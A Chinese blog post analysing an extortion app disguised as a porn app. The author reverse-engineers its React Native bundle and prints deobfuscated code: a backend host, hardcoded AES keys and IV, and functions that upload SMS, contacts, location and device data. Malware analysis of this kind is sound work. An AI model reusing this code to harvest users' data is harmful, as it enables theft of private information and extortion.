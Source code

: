 ```yaml
---
title: React Native App分析记录
description: 记录一个勒索用React Native App的分析过程
slug: react-native-crack
date: 2023-07-26 00:00:00+0000
image: cover.jpg
categories:
    - dev
tags:
    - dev
    - reverse
    - react-native
---
```


## 前言

> 起因是隔壁群友熬夜搞得脑子不清醒，下了个APP还给了一堆权限，然后就被勒索了，
> 而后把apk发群内大家尝试破解了一下，简单记录下我的整个分析过程

首先拿到apk先apktool一把梭解出来，然后发现lib内部是这样的  

![apk libs](apk-lib.png)

判断是React Native编写的程序，紧接着去`assets`找主程序文件`index.android.bundle`，但是Windows下会发现存在问题

![apk assets](apk-assets.png)

然而在Ubuntu环境下直接`unzip`可以得到正确的文件，可以看到`index.android.bundle`是压缩的js代码，类似于`webpack`打包
但是还是不太一样，接着对压缩的JS代码解压，可以用Chrome DevTool或者[Unminify](https://unminify.com/)进行解压，
得到对应的程序。

由于代码很多且有混淆，先根据抓包得到的一堆域名来尝试，很幸运找到了一个入口点
```javascript
__d(function(s, n, o, p, a, t, e) {
    a.exports = {
        name: "rnapp",
        displayName: "rnapp",
        lang: "zh",
        account: "yzvip",
        view: 1,
        hosts: ["https://yz.wuhengde0515sntb02uz.pro"],
        pool: "https://rnoss-sso.oss-accelerate.aliyuncs.com"
    }
}, 459, []);
```

然后接下来顺着`pool`来寻找，发现一段可疑代码
```javascript
    function c() {
        return (c = (0,
        t.default)(function*() {
            if (0 != (yield o(r(d[6]).hosts))) {
                var t = r(d[6]).pool + '/' + (0,
                r(d[5]).MD5)(r(d[6]).account).toString()
                  , n = yield(0,
                l.default)(t, {
                    method: 'GET',
                    retry: 3,
                    retryDelay: 1e3,
                    external: !0,
                    headers: {
                        'Cache-Control': 'no-cache'
                    }
                }, !1);
                if ('error' != n) {
                    var f = u.default.aesDecrypt(n, 'jkqmtd64aPgAiYll');
                    if (f)
                        o(JSON.parse(f))
                }
            }
        })).apply(this, arguments)
    }
```
首先看里面有多个点
+ `d[6]`代表的应该就是模块459
+ `u.default.aesDecrypt`看名字是AES解密，需要进一步看是否在算法里做了动作

接下来查找`aesDecrypt`，发现下面的部分
```javascript
__d(function(g, r, i, a, m, e, d) {
    Object.defineProperty(e, "__esModule", {
        value: !0
    }),
    e.default = void 0;
    var t = r(d[0])(r(d[1]))
      , n = r(d[0])(r(d[2]))
      , c = '6301386859816930'
      , u = (function() {
        function u() {
            (0,
            t.default)(this, u)
        }
        return (0,
        n.default)(u, null, [{
            key: "md5",
            value: function(t) {
                return r(d[3]).MD5(t).toString()
            }
        }, {
            key: "aesEncrypt",
            value: function(t, n) {
                var u = n
                  , f = r(d[3]).enc.Utf8.parse(t)
                  , o = r(d[3]).enc.Utf8.parse(u)
                  , p = r(d[3]).enc.Utf8.parse(c)
                  , s = r(d[3]).AES.encrypt(f, o, {
                    iv: p,
                    mode: r(d[3]).mode.CBC,
                    padding: r(d[3]).pad.Pkcs7
                }).ciphertext.toString()
                  , l = r(d[3]).enc.Hex.parse(s);
                return r(d[3]).enc.Base64.stringify(l)
            }
        }, {
            key: "aesDecrypt",
            value: function(t, n) {
                var u = n
                  , f = r(d[3]).enc.Utf8.parse(u)
                  , o = r(d[3]).enc.Utf8.parse(c);
                return r(d[3]).AES.decrypt(t, f, {
                    iv: o,
                    mode: r(d[3]).mode.CBC,
                    padding: r(d[3]).pad.Pkcs7
                }).toString(r(d[3]).enc.Latin1)
            }
        }]),
        u
    }
    )();
    e.default = u
}, 660, [3, 7, 8, 661]);
```
可以发现其使用的是CryptoJS，AES CBC模式加密，先捋清楚逻辑看看其有没有更改CryptoJS库  
根据代码可以发现，传入的第一个参数是密文，第二个参数是密钥，而IV则是固定的`6301386859816930`

再使用抓包得到的数据进行验证解密，成功解密得到结果
> 强烈谴责ksqeib，半夜一点捋清楚逻辑让他发个抓到的返回值，发我一个请求值，死也解密不开  
> 研究到三点多没搞明白，给我搞自闭了，第二天早上才反应过来这人给我发错了

下面来看一下他的API请求，也蛮有意思的，为了防止被直接抓包猜出来API的用途，他把API全都搞了个MD5值来用，具体代码如下
```javascript
    e.get = function(n, u) {
        var d = !(arguments.length > 2 && void 0 !== arguments[2]) || arguments[2]
          , f = arguments.length > 3 && void 0 !== arguments[3] ? arguments[3] : 0
          , c = o() + '/api/' + (0,
        r(_d[5]).MD5)(n).toString();
        if (u) {
            u = l(u);
            var h = [];
            Object.keys(u).forEach(function(t) {
                u[t]instanceof Object && null != u[t] ? Object.keys(u[t]).forEach(function(n) {
                    null != u[t][n] && h.push(t + "[" + n + "]=" + u[t][n])
                }) : null != u[t] && h.push(t + "=" + u[t])
            }),
            -1 === c.search(/\?/) ? c += "?" + h.join('&') : c += "&" + h.join('&')
        }
        return (0,
        t.default)(c, {
            method: 'GET'
        }, d, f)
    }
```
从L5可见，他把所有的API全都算了个MD5用，也是没谁了，接下来看一下他对发送数据的加密
```javascript
    function l(t) {
        var n = {
            data: t,
            timestamp: Date.parse(new Date) / 1e3
        }
          , o = JSON.stringify(n);
        return {
            text: u.default.aesEncrypt(o, 'A1h0DG' + (0,
            r(_d[5]).MD5)(r(_d[4]).account).toString().substring(2, 12))
        }
    }
```
也是AES加密，虽然这回密钥是拼接的但是没啥用，`account`就是上面找到的`pool`旁边就有，都是写死的值  
而后仔细看还可以发现他是从aliyun的oss里面拿了一个加密的字符串，里面包含的是所有后端服务器的域名，大同小异，密钥都是写死的，在此不过多赘述了  
观察API可以发现这程序的真实用途
```javascript
    function p() {
        return (p = (0,
        t.default)(function*(t) {
            return n.post('user/updateLocation', t, !1)
        })).apply(this, arguments)
    }
    function l() {
        return (l = (0,
        t.default)(function*(t) {
            return n.post('submit/device', t, !1, null, 3, 2e3)
        })).apply(this, arguments)
    }
    function f() {
        return (f = (0,
        t.default)(function*(t) {
            return n.post('submit/sms', t, !1, null, 3, 2e3)
        })).apply(this, arguments)
    }
    function c() {
        return (c = (0,
        t.default)(function*(t) {
            return n.post('submit/contacts', t, !1, null, 3, 2e3)
        })).apply(this, arguments)
    }
```
本质上就是盗取通讯录，短信，位置，设备信息，同时还会上传相册照片  
算是很老的一个骗局了，这个作为皮套是色情软件，本身里面一段视频也没有，emmm我不好评价